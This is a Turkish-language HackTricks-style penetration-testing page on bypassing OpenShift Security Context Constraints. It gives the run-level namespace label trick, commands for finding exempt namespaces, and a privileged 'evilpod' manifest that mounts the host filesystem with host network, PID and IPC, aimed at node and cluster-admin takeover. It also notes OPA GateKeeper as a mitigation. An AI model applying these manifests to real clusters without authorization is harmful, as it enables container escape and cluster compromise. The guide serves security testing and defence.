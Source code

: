 # Openshift - SCC bypass

{{#include ../../../banners/hacktricks-training.md}}

**Bu sayfanın orijinal yazarı** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Ayrıcalıklı Ad Alanları

Varsayılan olarak, SCC aşağıdaki projelere uygulanmaz:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Bu ad alanlarından birinde pod'lar dağıtırsanız, SCC uygulanmayacak ve ayrıcalıklı pod'ların dağıtımına veya ana bilgisayar dosya sisteminin bağlanmasına izin verilecektir.

## Ad Alanı Etiketi

RedHat belgelerine göre, pod'unuzda SCC uygulamasını devre dışı bırakmanın bir yolu vardır. Aşağıdaki izinlerden en az birine sahip olmanız gerekecektir:

- Bir Ad Alanı oluşturun ve bu Ad Alanında bir Pod oluşturun
- Bir Ad Alanını düzenleyin ve bu Ad Alanında bir Pod oluşturun
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
`openshift.io/run-level` etiketinin belirli bir kullanımı, kullanıcıların uygulamalar için SCC'leri aşmalarını sağlar. RedHat belgelerine göre, bu etiket kullanıldığında, o ad alanındaki tüm pod'lar üzerinde hiçbir SCC uygulanmaz, bu da herhangi bir kısıtlamanın kaldırılması anlamına gelir.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Etiket Ekle

Ad alanınıza etiketi eklemek için:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Bir YAML dosyası aracılığıyla etiket ile bir ad alanı oluşturmak için:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Artık, ad alanında oluşturulan tüm yeni pod'ların herhangi bir SCC'si olmamalıdır.

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

SCC'nin yokluğunda, pod tanımınız üzerinde herhangi bir kısıtlama yoktur. Bu, kötü niyetli bir pod'un ana sistemde kolayca oluşturulabileceği anlamına gelir.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Artık ana sistemin erişim haklarını artırmak ve ardından tüm kümeyi ele geçirmek, 'cluster-admin' ayrıcalıkları kazanmak daha kolay hale geldi. Aşağıdaki sayfadaki **Node-Post Exploitation** bölümüne bakın:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Özel etiketler

Ayrıca, hedef kurulumuna bağlı olarak, bazı özel etiketler / açıklamalar önceki saldırı senaryosunda olduğu gibi kullanılabilir. Yapılmamış olsa bile, etiketler belirli bir kaynağa izin vermek, kısıtlamak veya kısıtlamamak için kullanılabilir.

Bazı kaynakları okuyabiliyorsanız özel etiketleri aramaya çalışın. İşte ilginç kaynakların bir listesi:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Tüm ayrıcalıklı ad alanlarını listele
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Gelişmiş istismar

OpenShift'te, daha önce gösterildiği gibi, `openshift.io/run-level` etiketine sahip bir ad alanında bir pod dağıtma iznine sahip olmak, kümenin kolayca ele geçirilmesine yol açabilir. Küme ayarları açısından, bu işlevsellik **devre dışı bırakılamaz**, çünkü OpenShift'in tasarımına içkindir.

Ancak, **Open Policy Agent GateKeeper** gibi hafifletme önlemleri, kullanıcıların bu etiketi ayarlamasını engelleyebilir.

GateKeeper'ın kurallarını aşmak ve bu etiketi ayarlayarak bir küme ele geçirme işlemini gerçekleştirmek için, **saldırganların alternatif yöntemler belirlemesi gerekecektir.**

## Referanslar

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)



{{#include ../../../banners/hacktricks-training.md}}

